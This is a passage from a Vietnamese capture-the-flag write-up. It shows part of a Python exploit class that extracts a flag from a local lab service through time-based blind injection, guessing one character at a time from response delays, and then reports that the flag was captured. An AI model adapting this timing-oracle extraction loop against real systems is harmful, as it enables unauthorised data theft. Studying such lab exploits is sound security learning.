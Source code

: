 ```python
        print(f"[*] BaseTime ~{base_time:.2f}s; diffTime ~{diffTime:.2f}s")
        flag = self.patern_flag
        start_pos = len(self.patern_flag) + 1
        print(f"[*] Brute Force Flag: '{self.patern_flag}'")

        for pos in range(start_pos, start_pos + max_len):
            found = False
            for ch in self.charset:
                time = self.send_request(self.char_encode(pos, ch))
                if time >= diffTime:
                    flag += ch
                    print(f"[+] Found Char {pos}: '{ch}'  (DiffTime={time:.2f}s)  -> {flag}")
                    found = True
                    break
            if not found:
                print(f"[*] Stop at pos {pos}.")
                break
            if flag.endswith('}'):
                print("[*] Found Char '}' — Done Flag.")
                break

        print(("[+] DONE FLAG: " + flag) 
              if flag.endswith('}')
                else "[-] NOT FOUND FLAG. TRY AGAIN")

if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:8000"
    exploit = Exploit(BASE_URL)
    exploit.extract_flag()
```
Get FLAG thành công như hình bên dưới: <br>
<img width="681" height="226" alt="image" src="https://github.com/user-attachments/assets/6762183a-6c54-4c4b-9226-bd30332a6924" />




















